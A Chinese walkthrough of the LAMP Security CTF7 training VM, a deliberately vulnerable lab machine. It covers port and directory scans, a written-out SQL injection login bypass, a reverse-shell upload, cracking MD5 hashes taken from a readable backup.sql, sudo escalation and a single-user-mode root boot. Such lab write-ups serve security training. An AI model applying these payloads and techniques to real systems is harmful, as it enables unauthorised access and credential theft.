# 前言

### 靶场介绍

LAMP Security 系列的第 7 台，难度 easy，整体是一条很顺的链：靠 SQL 报错在后台用万能密码登入，找到文件上传点传反弹 shell 拿到 webshell，再从 root 备份的 `backup.sql` 里拖出一整张用户表、破解出明文密码，最后用一个拥有完整 sudo 权限的账号直接提到 root。适合练"从 Web 打进去、再靠信息收集横向 + 提权"的完整流程。

### 靶场信息

| 字段     | 值                                                          |
| ------ | ---------------------------------------------------------- |
| 靶机名    | LAMP_Security_CTF7                                         |
| 靶机 IP  | 192.168.200.129                                            |
| 靶机 URL | https://www.vulnhub.com/entry/lampsecurity-ctf7,86/        |
| 下载（镜像） | https://download.vulnhub.com/lampsecurity/CTF7plusDocs.zip |

### 涉及工具

- nmap
- gobuster
- 反弹 shell
- john（哈希破解）

---

# 1.信息收集

## 1.1.Nmap信息扫描

### 端口扫描

```bash
nmap -sT -p- --min-rate 10000 192.168.200.129 -oA ports
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-17 00:34 EDT
Nmap scan report for 192.168.200.129
Host is up (0.00055s latency).
Not shown: 65507 filtered tcp ports (no-response), 19 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn
901/tcp   open   samba-swat
5900/tcp  closed vnc
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
MAC Address: 00:0C:29:DF:B8:07 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.43 seconds
```

开放端口不少：22 SSH、80 与 8080 两个 HTTP、139 Samba、901 Samba SWAT、10000 大概率是 Webmin。两个 Web 端口是重点，挨个看详细信息。

### 详细信息

```bash
nmap -sT -sC -sV -O -p22,80,139,901,8080,10000 192.168.200.129 -oA detials
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-17 00:37 EDT
Nmap scan report for 192.168.200.129
Host is up (0.00023s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open  http        Apache httpd 2.2.15 ((CentOS))
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-title: Mad Irish Hacking Academy
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp   open  netbios-ssn Samba smbd 3.5.10-125.el6 (workgroup: MYGROUP)
901/tcp   open  http        Samba SWAT administration server
| http-auth: 
| HTTP/1.0 401 Authorization Required\x0D
|_  Basic realm=SWAT
|_http-title: 401 Authorization Required
8080/tcp  open  http        Apache httpd 2.2.15 ((CentOS))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.2.15 (CentOS)
10000/tcp open  http        MiniServ 1.610 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
MAC Address: 00:0C:29:DF:B8:07 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router|storage-misc|media device|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X|5.X (97%), MikroTik RouterOS 7.X (91%), Drobo embedded (89%), Synology DiskStation Manager 5.X (89%), LG embedded (88%), Tandberg embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/h:drobo:5n cpe:/a:synology:diskstation_manager:5.2
Aggressive OS guesses: Linux 2.6.32 - 3.13 (97%), Linux 2.6.32 - 3.10 (97%), Linux 2.6.32 - 2.6.39 (94%), Linux 2.6.32 - 3.5 (92%), Linux 3.2 (91%), Linux 3.2 - 3.16 (91%), Linux 3.2 - 3.8 (91%), Linux 2.6.32 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2026-08-02T07:18:52-04:00
|_clock-skew: mean: -14d15h18m55s, deviation: 2h49m46s, median: -14d17h18m58s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.33 seconds
```

两个 Web 端口的定位清晰了：80 是博客前台 `Mad Irish Hacking Academy`，8080 是同一套系统的管理端 `Admin :: Mad Irish Hacking Academy`，入口是 `/login.php`。10000 是 Webmin，901 是 Samba SWAT。

### 漏洞扫描

```bash
nmap --script=vuln -p22,80,139,901,8080,10000 192.168.200.129 -oA vuln
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-17 00:38 EDT
Nmap scan report for 192.168.200.129
Host is up (0.00022s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.200.129
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.200.129:80/signup
|     Form id: email
|_    Form action: /signup_scr
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-trace: TRACE is enabled
| http-enum: 
|   /webmail/: Mail folder
|   /css/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /icons/: Potentially interesting folder w/ directory listing
|   /img/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /inc/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|_  /webalizer/: Potentially interesting folder
139/tcp   open  netbios-ssn
901/tcp   open  samba-swat
8080/tcp  open  http-proxy
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trace: TRACE is enabled
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-enum: 
|   /login.php: Possible admin folder
|   /phpmyadmin/: phpMyAdmin
|   /docs/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
|   /icons/: Potentially interesting folder w/ directory listing
|_  /inc/: Potentially interesting directory w/ listing on 'apache/2.2.15 (centos)'
10000/tcp open  snet-sensor-mgmt
MAC Address: 00:0C:29:DF:B8:07 (VMware)

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-061: false
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 91.35 seconds
```

漏洞脚本给出的多是 Slowloris、SMB 之类的 DoS 方向，利用价值不大。真正有用的是 `http-enum` 的结果：80 上有 `/webmail/`、`/webalizer/` 等目录，8080 上有 `/login.php`、`/phpmyadmin/`，指明了后面目录枚举要重点看的方向。

---
## 1.2.Web探测

### 目录枚举

#### **80 站点：**

```bash
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.200.129:80
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/# Priority ordered case sensative list, where entries were found (Status: 200) [Size: 6058]
/#                    (Status: 200) [Size: 6058]
/# Copyright 2007 James Fisher (Status: 200) [Size: 6058]
/#                    (Status: 200) [Size: 6058]
/# directory-list-2.3-medium.txt (Status: 200) [Size: 6058]
/# Attribution-Share Alike 3.0 License. To view a copy of this (Status: 200) [Size: 6058]
/# license, visit http://creativecommons.org/licenses/by-sa/3.0/ (Status: 200) [Size: 6058]
/# or send a letter to Creative Commons, 171 Second Street, (Status: 200) [Size: 6058]
/# Suite 300, San Francisco, California, 94105, USA. (Status: 200) [Size: 6058]
/#                    (Status: 200) [Size: 6058]
/#                    (Status: 200) [Size: 6058]
/contact              (Status: 200) [Size: 5017]
/about                (Status: 200) [Size: 4910]
/# on atleast 2 different hosts (Status: 200) [Size: 6058]
/default              (Status: 200) [Size: 6058]
/img                  (Status: 301) [Size: 316] [--> http://192.168.200.129/img/]
/# This work is licensed under the Creative Commons (Status: 200) [Size: 6058]
/register             (Status: 200) [Size: 6591]
/newsletter           (Status: 200) [Size: 4037]
/header               (Status: 200) [Size: 3904]
/signup               (Status: 200) [Size: 4783]
/profile              (Status: 200) [Size: 3977]
/assets               (Status: 301) [Size: 319] [--> http://192.168.200.129/assets/]   # <-- 重点关注
/footer               (Status: 200) [Size: 3904]
/css                  (Status: 301) [Size: 316] [--> http://192.168.200.129/css/]
/read                 (Status: 302) [Size: 1] [--> /readings]
/db                   (Status: 200) [Size: 3904]
/js                   (Status: 301) [Size: 315] [--> http://192.168.200.129/js/]
/usage                (Status: 403) [Size: 288]
/webmail              (Status: 301) [Size: 320] [--> http://192.168.200.129/webmail/]
/inc                  (Status: 301) [Size: 316] [--> http://192.168.200.129/inc/]
/recovery             (Status: 200) [Size: 4807]
/backups              (Status: 301) [Size: 335] [--> http://192.168.200.129/backups/?action=backups]
/webalizer            (Status: 301) [Size: 322] [--> http://192.168.200.129/webalizer/]
/readingroom          (Status: 200) [Size: 4037]
/trainings            (Status: 200) [Size: 4218]
/phpinfo              (Status: 200) [Size: 58698]
```

#### **8080 站点：**

```bash
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.200.129:8080
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 301) [Size: 324] [--> http://192.168.200.129:8080/docs/]
/usage                (Status: 403) [Size: 290]
/inc                  (Status: 301) [Size: 323] [--> http://192.168.200.129:8080/inc/]
/phpmyadmin           (Status: 301) [Size: 330] [--> http://192.168.200.129:8080/phpmyadmin/]
```

结合端口扫描和目录枚举，几个值得留意的点：

- **80 端口（前台博客站）**：`Mad Irish Hacking Academy`，功能很全——`/signup`、`/register` 是注册/登入入口，`/profile`、`/newsletter` 等是站点功能页，`/phpinfo` 直接暴露了 `PHP Version 5.3.3`，`/webmail/` 是一套 roundcube 邮箱，`/assets/` 是一个可列目录的资源目录。
- **8080 端口（后台管理站）**：同名系统的 Admin 端，入口 `/login.php`，旁边还挂着 `/phpmyadmin/`。
- **10000 端口**：Webmin 登录页。
- **901 端口**：Samba SWAT 管理端，需要 Basic 认证。

`/webmail/` 是 roundcube 0.8.4，查了下这个版本线上有认证后 RCE（CVE-2025-49113 类型），但需要先有邮箱账号，门槛偏高，先放一边。真正扎眼的是 8080 的 `/login.php`——初步测试时登录框直接吐出了 MySQL 的报错回显，这条路看起来更直接，转过去打它。

---
# 2.权限立足

8080 站点的登入接口存在 SQL 的报错回显，直接上万能密码测试：

```
admin' or 1=1#
```



成功登入。



这应该是一个图书借阅管理系统，先随便翻看一下，没什么问题。



翻阅功能的时候发现一个界面允许上传文件，随便上传了一张照片，没有报错提示，说明我们应该是有上传权限的。

但现在的问题是：文件的存放路径在哪里？翻了之前扫描出来的目录，8080 站点本身目录很少、都翻看过了，没有存放文件的目录。倒是在另外那个 80 站点扫出来一个叫 `assets` 的目录——凭经验我猜测上传的文件或许就放在那里。

结果确实如此，`http://192.168.200.129/assets` 确实是存放上传文件的路径。那么现在目标很明确了，上传反弹 shell，执行拿到webshell。



运行反弹 shell，连接成功。



---
# 3.提权

拿到 webshell 后，先对机器的基本信息做了排查。在翻文件的时候，有个目录引起了我的注意：

```
bash-4.1$ ls -liah
ls -liah
total 3.7M
260010 drwxrwxr-x. 10 webdev webdev 4.0K Dec 24  2012 .
259983 drwxr-xr-x.  7 root   root   4.0K Dec 19  2012 ..
260462 -rw-rw-r--.  1 webdev webdev  130 Dec 19  2012 .htaccess
260415 drwxrwxr-x.  2 apache webdev 4.0K Aug  2 10:59 assets
  3302 drwxr-xr-x.  2 root   root   4.0K Dec 24  2012 backups         # <-- 重点关注
260235 -rw-rw-r--.  1 webdev webdev  83K Dec  8  2012 bootstrap.zip
260392 drwxr-xr-x.  2 webdev webdev 4.0K Dec  8  2012 css
260420 -rw-rw-r--.  1 webdev webdev  189 Jul 26  2012 favicon.ico
260405 drwxr-xr-x.  2 webdev webdev 4.0K Dec  8  2012 img
260411 drwxrwxr-x.  2 webdev webdev 4.0K Dec 19  2012 inc
260352 -rw-rw-r--.  1 webdev webdev  568 Dec 24  2012 index.php
260408 drwxr-xr-x.  2 webdev webdev 4.0K Dec 11  2012 js
270634 -rw-r--r--.  1 webdev webdev 3.6M Nov 14  2012 roundcubemail-0.8.4.tar.gz
134349 drwxrwxr-x.  2 john   john   4.0K Aug  2 08:48 webalizer
259680 drwxr-xr-x. 11 webdev webdev 4.0K Dec 19  2012 webmail
bash-4.1$ 
```

`backups` 这个文件夹属主是 root，但权限是 `drwxr-xr-x`，允许所有用户读取。进去看看：

```
bash-4.1$ ls -liah
ls -liah
total 548K
257604 -rw-rw-r--.  1 root   root   540K Dec 24  2012 backup.sql
```

一个 540K 的 `backup.sql`，看内容像是管理员建站时候备份的数据库，直接从里面把用户表的密码哈希捞出来破解。



拿到一整张用户表的哈希：

```
webdev:f7aa6066f95255096672e3a5fc537081
brian:d41d8cd98f00b204e9800998ecf8427e
john:0d9ff2a4396d6939f80ffe09b1280ee1
alice:2146bf95e8929874fc63d54f50f1d2e3
ruby:9f80ec37f8313728ef3e2f218c79aa23
leon:5d93ceb70e2bf5daa84ec3d0cd2c731a
julia:ed2539fe892d2c52c42a440354e8e3d5
michael:9c42a1346e333a770904b2a2b37fa7d3
bruce:3a24d81c2b9d0d9aaf2f10c6c9757d4e
neil:4773408d5358875b3764db552a29ca61
charles:b2a97bcecbd9336b98d59d9324dae5cf
```

拿去破解，跑出来一批明文：



汇总一下破解结果：

| 用户 | 明文密码 |
| --- | --- |
| julia | madrid |
| leon | qwer1234 |
| charles | chuck33 |
| alice | turtles77 |
| michael | somepassword |
| brian | （空） |

有了一批账号密码，挑 `alice` 试 SSH 登入。目标 sshd 版本旧，直接连会因为算法协商失败，需要手动指定 `ssh-rsa`：

```bash
sudo ssh -oHostKeyAlgorithms=ssh-rsa alice@192.168.200.129
```

登入后 `sudo -l` 查看当前用户权限：

```
User alice may run the following commands on this host:
    (ALL) ALL
```



`alice` 拥有 `(ALL) ALL`，等于完整 sudo 权限，直接 `sudo su` 切到 root 即可：

```
[alice@localhost ~]$ sudo su
[root@localhost alice]# id
uid=0(root) gid=0(root) groups=0(root) ...
```

提权成功，获得 root 权限。



---
# 4.总结

这个系列的靶机在提权阶段完全没有设置难度，拿到了密码直接可以进行提权操作。作为恢复训练的第三台靶机，难度设计刚刚好。

回顾本次攻击链，8080 SQL 报错 → 万能密码登入，到这里都很顺利，获得了 8080 的登入权限，后续的操作我就卡住了，不知道从何下手。

回看，其实有两条路，一条是本文前面介绍的方法。还有一条我在渗透的时候也稍微有所发现，但由于对 POST 注入不熟悉，就没有往后操作——就是在 8080 的登入界面尝试万能密码的时候，发现界面会回显报错，顺着这个报错完全可以对数据库进行拖库，从而得到用户名和密码。

在提权阶段，思路就很简单，找权限找文件。由于作者完全没有在提权阶段设防，先用破解出的密码横向移动到 alice，再靠 alice 的完整 sudo 权限提权，直接拿到了 root。


---
# 5.补充

除了正常走完的这条链，这里再记两个和这台机器相关的操作。

### 5.1.LAMP_Security_CTF7靶机如何获取 ip

运行虚拟机，鼠标点击运行界面，按键盘上的 `e` 键进入编辑模式，会看到三行：root、kernel、initrd。



编辑 kernel 那一行：用方向键选中 `kernel /vmlinuz-2.6.32-279...` 这一行，再按一次 `e` 进入行编辑。把光标移到这一行最后，加一个空格，输入 `single`（或者数字 `1`），然后回车确认修改。这会让系统只启动到单用户 shell，不需要密码就能拿到 root 权限。

回到三行菜单界面后，按 `b` 启动。系统会跳过正常的多用户初始化，直接给你一个 root shell（可能会提示按 Enter 继续）。

#### 修改网卡名称

无法获取 IP 的原因多半是网卡和配置中的网卡名不同，需要修改配置中的网卡名称即可获取直接把 `ifcfg-eth0` 改名/复制成 `ifcfg-eth1`，并把文件内容里的 `DEVICE=eth0` 改成 `DEVICE=eth1`，同时删掉或更新 `HWADDR`，然后重启网络服务：

```bash
vi /etc/sysconfig/network-scripts/ifcfg-eth0
mv /etc/sysconfig/network-scripts/ifcfg-eth1
service network restart
ip a
```


---
## 5.2.补充做法：手工SQL注入

回到我们之前是有万能密钥登入的页面，在 username 输入框中填入`'` , 点击登入页面。

